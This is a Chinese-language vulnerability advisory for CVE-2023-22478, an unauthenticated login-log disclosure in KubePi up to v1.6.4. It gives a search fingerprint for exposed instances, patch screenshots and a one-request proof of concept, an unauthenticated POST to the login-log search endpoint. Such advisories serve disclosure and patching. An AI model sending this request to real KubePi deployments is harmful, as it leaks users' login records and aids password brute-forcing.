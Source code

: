 # KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户

## 漏洞影响

<a-checkbox checked>KubePi <= v1.6.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"kubepi"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682440791240-01629ee9-05d4-4eff-a15f-aede8707d482.png)

补丁中对路由加了身份验证

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682440845494-1d058852-8474-4681-bd3e-6b1545000a75.png)

对应的接口为

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682440907690-5156d5b7-4e4d-4a33-9d79-7d489e0411a9.png)



验证POC

```php
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682440828484-ab47f1ea-42c1-4ec1-af79-0832a6e277ad.png)